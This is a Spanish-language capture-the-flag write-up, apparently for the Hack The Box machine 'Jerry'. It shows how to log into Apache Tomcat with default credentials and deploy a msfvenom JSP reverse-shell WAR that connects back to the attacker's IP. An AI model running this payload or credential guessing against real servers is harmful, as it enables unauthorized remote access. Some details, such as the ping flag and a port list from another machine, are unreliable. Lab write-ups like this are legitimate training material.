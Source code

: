 ```yaml
---
title: Jerry
date: '2023-07-08'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: false
summary: 'Aunque Jerry es una de las máquinas más fáciles en Hack The Box, es realista, ya que Apache Tomcat se encuentra a menudo expuesto y configurado con credenciales comunes o débiles.'
images: ['/static/images/htb/jerry/jerry.png']
---
```


![Portada](/static/images/htb/jerry/jerry.png)

<br></br>

<TOCInline toc={props.toc} exclude="Introduccion" />

## RECONOCIMIENTO

### Ping

Primero que nada verificamos estar en la misma red que la maquina victima enviandole un paquete de datos a la ip 10.10.10.95 con el comando ping.

```js
  ping -c 10.10.10.95
```

- `-c` : Cantidad de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviaran.

![Ping](/static/images/htb/jerry/ping.png)

### Nmap

Luego, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.95 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Solo va a reportar los puertos que encuentre abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Nmap1](/static/images/htb/jerry/nmap1.png)

Al obtener la lista de los puertos abiertos en la maquina victima,realizamos otro escaneo pero solo a los que
nmap reporto como abiertos incluyendo las siguientes flags:

- `-sC` : Activa el escaneo utilizando scripts de enumeración y detección de servicios predeterminados. Los scripts se ejecutan contra los puertos abiertos para obtener información adicional sobre los servicios en ejecución.
- `-sV` : Realiza una detección de versión de los servicios que se encuentran en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando diversos métodos, como el envío de solicitudes específicas y la comparación de las respuestas recibidas.
- `-p` : Especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Indica a Nmap que realice el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes ICMP de solicitud de eco.

```js
  nmap -sC -sV -p8080 10.10.10.95 -Pn
```

![Nmap2](/static/images/htb/jerry/nmap2.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Version              |
| ---------------- | -------- | -------------------- |
| **_8080/tcp_**   | http     | Apache Tomcat 7.0.88 |

## ENUMERACION

### Puerto 8080 HTTP

El puerto 8080 es comúnmente utilizado como un puerto alternativo para ejecutar servicios web. El servicio más común que se ejecuta en el puerto 8080 es un servidor web HTTP. Algunos servidores web populares, como `Apache Tomcat` y `JBoss`, utilizan el puerto `8080` como el puerto predeterminado para escuchar solicitudes HTTP. Sin embargo, es importante tener en cuenta que el puerto 8080 no está reservado exclusivamente para ningún servicio específico, por lo que otros servicios también pueden utilizarlo.

En este caso el servicio proporcionado es el de `Apache`, especificamente con la
version 7.0.88.

Abrimos en un navegador la direccion `http://10.10.10.95:8080` para dirigirnos a la pagina de inicio del servidor Apache.

![Apache](/static/images/htb/jerry/apache1.png)

Navegamos por ella para descubrir mas cosas y al clickear en `Server Status` nos aparece un cartel
para introducir credenciales. Ya que no tenemos, realizamos una busqueda por google acerca de
credenciales por default que utilice Apache en general o en esta version.
Y en esta [pagina](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) encontramos credenciales por default de Apache.

Procedemos a probar unas de ellas y `admin:admin` nos permite loguearnos.

![Apache](/static/images/htb/jerry/apache2.png)
![Apache](/static/images/htb/jerry/apache3.png)

Estamos en la pagina Server Status, esta pagina nos proporciona información detallada sobre el estado y el rendimiento del servidor web. Hacemos click en `List Applications` y me dirige a una pagina `403 - Acceso Denegado`, en la cual da un ejemplo de credenciales.

![Apache](/static/images/htb/jerry/apache4.png)

Como `admin:admin`, nos dio un acceso limitado en el servidor, probamos iniciar sesion
con `tomcat:s3cret` y esta vez si tenemos acceso a `List Application`.

![Apache](/static/images/htb/jerry/apache5.png)

Vemos que nos da la posibilidad de cargar archivos WAR.
![Apache](/static/images/htb/jerry/apache6.png)

### WAR

Los archivos WAR (Web Application Archive) son archivos comprimidos que contienen todos los componentes necesarios para ejecutar una aplicación web en el entorno de servidor Java. Estos archivos son utilizados principalmente en el desarrollo de aplicaciones Java EE (Enterprise Edition) o J2EE (Java 2 Enterprise Edition).

Un archivo WAR se crea para empaquetar y distribuir una aplicación web de Java de manera conveniente. Contiene todos los archivos necesarios para implementar y ejecutar la aplicación en un contenedor de servlets, como Apache Tomcat, JBoss, WebSphere, entre otros.

Buscamos en google `apache tomcat 7.0.88 war file upload` y encontramos una [web](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/) en la cual explica paso a paso como generar un archivo WAR para obtener una [reverse shell](https://keepcoding.io/blog/que-es-una-shell-inversa/).

Vamos a seguir el paso a paso de esa publicacion.

## EXPLOTACION

### Msfvenom

`Msfvenom` es una herramienta que forma parte del marco de trabajo `Metasploit`, un conjunto de herramientas de seguridad y pruebas de penetración ampliamente utilizado. Se utiliza específicamente para generar y manipular payloads (cargas útiles) maliciosas.

Una `carga útil` o `payload` es un fragmento de código malicioso que se utiliza para explotar una vulnerabilidad en un sistema o red con el fin de obtener acceso no autorizado o controlar el sistema objetivo. Estas cargas útiles se utilizan comúnmente en pruebas de penetración y evaluaciones de seguridad para detectar y corregir vulnerabilidades.

Msfvenom proporciona una interfaz de línea de comandos que permite a los usuarios generar diferentes tipos de cargas útiles, como exploits, troyanos, backdoors y shellcodes, adaptados a diferentes sistemas operativos y arquitecturas. Permite personalizar y configurar varios aspectos de la carga útil, como el tipo de exploit utilizado, la codificación, la forma de entrega, el mecanismo de persistencia y mucho más.

### Armando el payload

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.4.2 LPORT=4646 -f war > shell.war
```

- `-p java/jsp_shell_reverse_tcp`: Especifica el tipo de payload que se va a generar, en este caso, una reverse shell TCP basada en Java JSP. Esta reverse shell TCP permite al atacante establecer una conexión desde el sistema comprometido hacia el sistema del atacante.

- `LHOST=10.10.4.2`: Define la dirección IP a la cual la carga útil se conectará de forma reversa. En este caso, se utiliza la dirección IP "10.10.4.2" (vpn de `HTB`) como ejemplo. Debes reemplazarla con la dirección IP real del sistema que actuará como el punto de escucha para recibir la conexión de reversa.

- `LPORT=4646`: Especifica el puerto en el cual el payload se conectará de forma reversa. En este caso, se utiliza el puerto "4646" como ejemplo. Puedes modificarlo según tus necesidades, siempre teniendo en cuenta que no esté bloqueado por firewalls o utilizados por otros servicios.

- `-f war`: Indica el formato de salida deseado para la carga útil generada. En este caso, se especifica que se desea generar un archivo WAR (Web Application Archive), como se describió anteriormente.

- `> shell.war`: Redirige la salida generada por msfvenom hacia un archivo llamado "shell.war". Puedes cambiar el nombre del archivo según tus preferencias.

![Exploit](/static/images/htb/jerry/exploit.png)

Luego de haber generado el exploit, ponemos el puerto 4646 en escucha.

![Puerto](/static/images/htb/jerry/puerto.png)

Volvemos a la pagina del servidor Apache,cargamos nuestro exploit y navegamos hacia `http://10.10.10.95:8080/shell/`.

![Carga](/static/images/htb/jerry/upload.png)
![Carga2](/static/images/htb/jerry/upload2.png)
![Shell](/static/images/htb/jerry/shell.png)

Volvemos a la consola donde teniamos el puerto 4646 en escucha y nos encontramos dentro de la maquina
victima. Luego de eso navegamos por los directorios y encontramos las dos flags juntas.
![Dir](/static/images/htb/jerry/dir1.png)
![Dir2](/static/images/htb/jerry/dir2.png)
